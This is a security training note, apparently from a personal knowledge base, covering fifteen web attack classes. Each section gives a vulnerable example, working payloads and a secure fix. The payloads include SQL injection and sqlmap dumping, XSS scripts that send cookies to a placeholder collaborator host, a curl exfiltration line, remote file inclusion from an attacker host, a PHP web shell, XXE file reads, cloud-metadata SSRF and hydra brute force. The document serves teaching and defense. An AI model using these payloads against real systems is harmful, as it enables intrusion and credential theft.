



# 💥 2.3 Web Exploitation Masterclass

> [!abstract] The Masterclass
> This is the hands-on arsenal — fifteen web attack classes, each explained as a defender-aware **authorized assessor** would: how the flaw arises, *why* it works at the code level, a vulnerable example, the exploitation walk-through with real payloads, and the secure fix. It operationalises the **OWASP Top 10** and builds on **Web Fundamentals**. **`#level/operator`**

> [!danger] Authorized Red-Team Simulation — scope & ethics
> Every payload and technique below is documented for **authorized red-team simulation, vulnerability assessment, and defensive architecture testing** — on systems you own or are contracted to test (labs, CTFs, bug-bounty scope). Each section pairs the attack with its **detection and remediation** because the purpose is to *build defenses*. Unauthorized use is illegal.

> [!tip] Chapter Map
> **Injection** → **** · **** · **** · **** · **** · ****
> **Client-side** → **** · ****
> **Server-side & files** → **** · **** · **** · ****
> **Access & logic** → **** · **** · ****

---

## SQL Injection

User input is concatenated into a SQL query, letting the attacker alter the query's **logic**. The archetype of **OWASP A03** and still one of the highest-impact web bugs.

![[62a7685ca6e7ce005d3f3afe-1716989709301.svg|697]]

```php
// ❌ Vulnerable
$q = "SELECT * FROM users WHERE user='$u' AND pass='$p'";
// Input:  u = admin'--     → SELECT ... WHERE user='admin'-- ' AND pass=''  → password check commented out → auth bypass
```

### Types & methodology
- **In-band** — *union-based* (`' UNION SELECT username,password FROM users-- -`) exfiltrates directly; *error-based* leaks data through DB error messages.
- **Blind** — no data echoed; infer bit-by-bit:
  - *Boolean:* `' AND 1=1-- -` (page normal) vs `' AND 1=2-- -` (page differs).
  - *Time-based:* `' AND SLEEP(5)-- -` — if the response hangs 5s, it's injectable.
- **Out-of-band** — force a DNS/HTTP callback when in-band and blind both fail.

Detection is `'` → error/anomaly; then determine columns (`ORDER BY n`), then extract. Assessment tooling — **`sqlmap`** — automates all of this on authorized targets:
```bash
sqlmap -u "https://target.thm/item?id=1" --batch --dbs          # enumerate databases
sqlmap -u "https://target.thm/item?id=1" -D shop -T users --dump # dump a table
sqlmap -r request.txt --batch --level 5 --risk 3                 # from a saved Burp request
```
> **Fix:** **parameterised queries / prepared statements** — the driver sends the query template and the data separately, so input can *never* become SQL. Add least-privilege DB accounts, allow-list validation, stored-procedure discipline, and a WAF as defense-in-depth.
> ```php
> $stmt = $pdo->prepare("SELECT * FROM users WHERE user=? AND pass=?");
> $stmt->execute([$u, $p]);
> ```

---

## Cross-Site Scripting (XSS)

Attacker-controlled **JavaScript** executes in a victim's browser, in the victim's origin and session — enabling cookie theft, keylogging, request forgery, and BeEF-style browser control. It arises whenever user input is reflected into a page **without context-appropriate encoding**.



### Payloads by context (the "XSS Payload List")
```html
<script>alert(document.domain)</script>              <!-- proof: which origin ran it -->
                          <!-- when <script> is stripped -->
<svg onload=alert(1)>                                 <!-- terse, filter-evading -->
"><script>...</script>                                <!-- break out of an attribute first -->
' autofocus onfocus=alert(1) x='                      <!-- inside a quoted attribute -->
javascript:alert(1)                                   <!-- href/src context -->
```
**Weaponised (authorized testing, your own collaborator host):**
```html
<script>new Image().src='https://COLLAB/?c='+document.cookie</script>   <!-- exfil cookies -->
<script>fetch('https://COLLAB',{method:'POST',body:document.cookie})</script>
```
Context is everything: the same input needs HTML-encoding in a body, attribute-encoding in an attribute, and JS-encoding in a script block. `dalfox`, `XSStrike`, and **Burp Suite** automate discovery.

> **Fix:** **context-aware output encoding**; a strict **Content-Security-Policy** (`script-src 'self'`, no `unsafe-inline`); `HttpOnly`+`SameSite` cookies to blunt theft (**Defensive Groundwork (Sessions (Cookies vs Tokens))**); trusted sanitisers (DOMPurify) for rich text; and avoid dangerous sinks (`innerHTML`, `document.write`, `eval`).

---

## Command Injection

Unsanitised input reaches a system shell → OS command execution as the web process — a fast path to a **reverse shell** and **Privilege Escalation**.


Chain your command with shell metacharacters: `;` (always), `&&` (on success), `||` (on failure), `|` (pipe), `` `cmd` `` / `$(cmd)` (substitution), `%0a` (newline). **Blind** injection (no output) is confirmed by timing or out-of-band:
```bash
127.0.0.1; sleep 10                 # 10s delay = injectable
127.0.0.1; curl https://COLLAB/$(whoami)     # exfiltrate via DNS/HTTP
```
Filter bypasses when keywords/chars are blocked: `$IFS` for spaces (`cat$IFS/etc/passwd`), quotes (`w'h'o'am'i`), substitution (`who$()ami`), wildcards (`/???/c?t /etc/passwd`), and base64 (`echo <b64> | base64 -d | bash`).

![[14acf436361fcfb7efced4b2f416b3d5.png]]

> **Fix:** avoid the shell entirely — use language-native APIs; if you must exec, pass an **argument array** with `shell=False` (`subprocess.run(["ping","-c1",host])`), never a concatenated string; allow-list input; run least-privilege. Dangerous PHP sinks: `exec`, `system`, `passthru`, `shell_exec`, `` `backticks` ``.
> ![[06e83dfe3791664ed0bb9bc9ffd3e581.png]]

---

## Server-Side Template Injection (SSTI)

User input is embedded into a **server-side template** (Jinja2, Twig, Freemarker, Velocity) and evaluated as template code — frequently escalating to full RCE because template engines expose language internals.

![[645b19f5d5848d004ab9c9e2-1717984573585.png]]

```python
# ❌ Vulnerable (Flask/Jinja2) — input concatenated into the template string
render_template_string("Hello " + request.args.get("name"))
```
**Methodology:** detect → identify engine → escalate.
```
{{7*7}}    → 49     confirms a Jinja2/Twig-style engine evaluates it
${7*7}     → 49     Freemarker/Velocity/Thymeleaf family
#{7*7}                Ruby/other
```
Once the engine is known, walk its object model to reach the OS. Jinja2 RCE, conceptually, climbs from a string literal to a subprocess:
```python
{{ ''.__class__.__mro__[1].__subclasses__() }}   # enumerate classes → find Popen → run a command
```
> **Fix:** never concatenate user input into a template; pass it strictly as **rendered data** (`render_template("t.html", name=name)`); use a **sandboxed** or logic-less engine; allow-list. Detection payloads per engine are the fastest triage in a **Burp Suite** scan.

---

## XXE Injection

An **XML parser** configured to resolve external entities is fed a malicious DTD → local file read, SSRF, or DoS.

![[Pasted image 20260623135247.png]]

```xml
<!-- ❌ Classic in-band file read -->
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>&xxe;</data>
```
**Blind XXE** (no output reflected) exfiltrates via an attacker-hosted parameter-entity DTD (OOB), or triggers **DoS** with the "billion laughs" nested-entity expansion. XXE also pivots into **SSRF** via `SYSTEM "http://169.254.169.254/…"`.

> **Fix:** **disable external entities and DTDs** in the parser — `libxml_disable_entity_loader(true)` (PHP), `factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)` and disable DOCTYPE (Java). Prefer JSON where possible; patch the parser.

---

## LDAP Injection

Input concatenated into an **LDAP search filter** manipulates directory queries — most commonly an authentication bypass against **directory**-backed logins.

![[f6e0e81b34c5e02559b27b192aba794a.png]]

```
# ❌ Filter built as:  (&(uid=$user)(userPassword=$pass))
user = *                        → (&(uid=*)...)         matches every entry
user = *)(uid=*))(|(uid=*        → injects a tautology  → bind without a valid password
```
The wildcard `*` and the boolean operators `& | !` are the primitives; an "always-true" clause `(|(&))` short-circuits the check.

> **Fix:** **escape** LDAP special characters (`* ( ) \ / NUL`) per RFC 4515, use parameterised/allow-listed input, and bind with a least-privilege service account.

---

## ORM Injection

An ORM abstracts SQL but does **not** guarantee safety — raw fragments, `.raw()`/`.extra()`, or unsafe query-builder strings reintroduce **SQLi** underneath the abstraction.

![[62a7685ca6e7ce005d3f3afe-1718912807353.png]]

```python
# ❌ Vulnerable — user input interpolated into a raw fragment
User.objects.raw(f"SELECT * FROM users WHERE name = '{name}'")
User.objects.extra(where=[f"name='{name}'"])
# ✅ Safe — the ORM parameterises for you
User.objects.filter(name=name)
```
> **Fix:** use the ORM's parameterised query methods exclusively; treat `.raw()`/`.extra()`/`DB::raw()` as SQLi sinks (parameterise if unavoidable); validate types.

---

## Server-Side Request Forgery (SSRF)

The server is coerced into making attacker-chosen requests — reaching internal services, cloud metadata, and non-HTTP endpoints from *inside* the trust boundary. (**OWASP A10**.)

![[Pasted image 20260101143629.png]]

```
# Steal cloud credentials (AWS IMDSv1):
https://app.thm/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Reach an internal-only service:
https://app.thm/fetch?url=http://127.0.0.1:6379/   → interact with internal Redis
```
**Filter bypasses** (why deny-lists fail): alternate IP encodings (`http://127.1`, `http://2130706433/`, `0x7f.0.0.1`), IPv6 `[::1]`, DNS rebinding (a hostname that resolves to a public IP on first lookup, `127.0.0.1` on the second), and open-redirect chaining. Catch callbacks with a listener:
```bash
nc -lvp 80      # or use an OOB collaborator to prove blind SSRF
```
![[24147651267eedd828e4c103b84795d9.svg]]

> **Fix:** **allow-list** destinations (not deny-list); block internal/link-local ranges (`169.254.0.0/16`, RFC 1918, `127.0.0.0/8`); disable unused schemes (`file://`, `gopher://`); resolve-then-validate to defeat rebinding; never reflect responses; require **IMDSv2**.

---

## File Inclusion & Path Traversal

The app builds a filesystem path (or an `include`) from user input. **Path traversal** reads arbitrary files; **LFI** executes local files; **RFI** pulls and executes a remote payload.

![[51fca7adb2f8deb2d2bd3a83dc4d0c00.png]]

```
?file=../../../../etc/passwd                                   # path traversal (read)
?file=....//....//etc/passwd                                   # bypass a single ../ strip
?page=php://filter/convert.base64-encode/resource=config.php   # LFI → leak PHP source
?page=/var/log/apache2/access.log                              # LFI → log poisoning → RCE
?page=http://attacker.thm/shell.txt                            # RFI → RCE (allow_url_include=On)
```
**LFI → RCE** chains: poison a log/`/proc/self/environ` with a `<?php system($_GET['c']); ?>` payload (via `User-Agent`), then include it. PHP wrappers (`php://filter`, `data://`, `expect://`) are the workhorses.

![[0e01212213a4a512d552b55d22b7014d.png]]

> **Fix:** never pass user input to `include`/`require`/`fopen`/`readfile`; use an **allow-list** of permitted files/IDs (map `?page=1` → a fixed filename); `basename()` + canonicalise (`realpath`) and verify the result stays within an intended base directory; disable `allow_url_include`/`allow_url_fopen`.

---

## File Upload Vulnerabilities

Unrestricted upload lets an attacker place executable content — a **web shell** — in a web-served directory → RCE.

![[uptWRKW.png]]

```php
// shell.php uploaded, reachable at /uploads/shell.php  →  /uploads/shell.php?cmd=id
<?php system($_GET['cmd']); ?>
```
**Bypasses** of naive validation: double extensions (`shell.php.jpg`), alternate PHP extensions (`.phtml`, `.php5`, `.pHp`), null bytes (`shell.php%00.jpg`), magic-byte spoofing (prepend `GIF89a;`), `Content-Type` tampering, and an uploaded **`.htaccess`** that re-maps an innocent extension to the PHP handler.

> **Fix:** allow-list extensions **and** validate real content (magic bytes + re-encode images), **rename** files to a random server-generated name, store **outside the web root** (or on object storage) and serve via a handler, disable script execution in the upload directory (`php_admin_flag engine off`), enforce size limits, and scan uploads.

---

## IDOR

Insecure Direct Object Reference — access another user's object by changing an identifier. The concrete form of **broken access control**; identical to the API's **BOLA**.

![[Pasted image 20251228120454.png]]

```
GET /account?id=111111   → mine
GET /account?id=222222   → someone else's (if ownership isn't checked)
GET /invoice/1042.pdf    → try 1043, 1044 … mass-download others' invoices
```
IDOR hides in path params, query strings, body fields (`{"user_id":13}`), and headers. Predictable **sequential IDs** make it trivially scriptable; UUIDs add obscurity but leak through other endpoints, so they're not a control.

> **Fix:** enforce **server-side ownership checks** on every object access, keyed to the authenticated session identity — not the client-supplied ID; use indirect per-session reference maps; deny by default.

---

## Authentication Bypass

Logic flaws that skip or subvert authentication rather than crack it: re-registration collisions (`" admin"`), predictable/tamperable tokens, brute-forceable logins, SQL-injection auth bypass (`admin'--`), and weak password-reset flows (host-header poisoning, guessable reset tokens).

![[Pasted image 20251225162614.png]]

```bash
# authorized credential brute force
hydra -l admin -P rockyou.txt target.thm http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid credentials"
```
> **Fix:** strong password policy + **lockout/rate limiting**, **MFA**, high-entropy session tokens rotated on login, canonicalise usernames, and harden the reset flow (bind the token to the account, expire it, don't trust the `Host` header). (**OWASP A07**.)

---

## Race Conditions

Concurrent requests hit a **check-then-act** window before the state update commits — the classic **TOCTOU** (time-of-check to time-of-use) flaw. Redeem a one-time coupon many times, withdraw the same balance twice, or bypass a limit by firing requests simultaneously.


Exploited by firing many identical requests at once — Burp **Turbo Intruder** or the HTTP/2 **single-packet attack** removes network jitter so requests land in the same instant.

> **Fix:** make check-and-act **atomic** — database transactions with row/optimistic locking (`SELECT ... FOR UPDATE`), unique constraints, **idempotency keys**, and server-side one-time-use enforcement. Never rely on two separate requests staying ordered.

---

## Insecure Deserialisation

Untrusted serialized data is deserialized into live objects, letting an attacker instantiate arbitrary objects and trigger **gadget chains** already present in the app's classpath → RCE. (**OWASP A08**.)

![[25179cc30d19a77dc77167e9d5ad7cd9.png]]
![[9a199439b155641fc89ddfd09376ca62.png]]

```python
# ❌ Never deserialize untrusted input
import pickle; obj = pickle.loads(request.data)   # a crafted pickle runs arbitrary code
```
Language surfaces: **Python** `pickle`/`yaml.load`, **PHP** `unserialize()` (object injection via magic methods `__wakeup`/`__destruct`), **Java** (`ysoserial` gadget chains via `readObject`), **.NET** `BinaryFormatter`, **Node** `node-serialize`. The attacker rarely writes the RCE directly — they chain existing "gadget" classes whose side effects, when reconstructed, execute code.

> **Fix:** **never deserialize untrusted data**; use data-only formats (JSON) with schema validation; if unavoidable, cryptographically **sign** the blob (HMAC) and verify before deserializing, use allow-list type binding, and run the deserializer with least privilege. `yaml.safe_load`, not `yaml.load`.

---

## Prototype Pollution

A JavaScript-specific flaw: attacker-controlled keys reach **`Object.prototype`**, and because prototype properties are inherited by *every* object, the injection silently changes application-wide behaviour — DoS, auth-logic bypass, XSS, or RCE in Node.js.

![[ba889a24229822ded96d81b5a97484d0.svg]]

```javascript
// ❌ Unsafe recursive merge of user-supplied JSON
merge({}, JSON.parse('{"__proto__":{"isAdmin":true}}'));
({}).isAdmin;        // → true   — EVERY object now reports isAdmin
// server-side: a later check like  if (user.isAdmin)  silently passes for everyone
```
Sinks are recursive `merge`/`extend`/`clone` helpers and unsafe property-path setters (`_.set(obj, userKey, val)`). Server-side it becomes RCE by polluting properties that downstream libraries read (e.g. child-process options).

> **Fix:** reject `__proto__`, `constructor`, and `prototype` keys on input; create maps with `Object.create(null)` or use `Map`; `Object.freeze(Object.prototype)`; use vetted deep-merge libraries and JSON-schema validation on all input objects.

---

## 🔗 Related Master Notes & Deep-Dives
- **2.2 OWASP Top 10** — the categories these techniques exploit
- **2.1 Web Fundamentals** — HTTP, recon & JWT foundations
- **2.4 API Security** — the API-specific attack surface
- **Burp Suite** · **Gobuster** · **Shells** — the tooling
- **Privilege Escalation** — where a web foothold leads next
- [[Web Security]] — domain hub
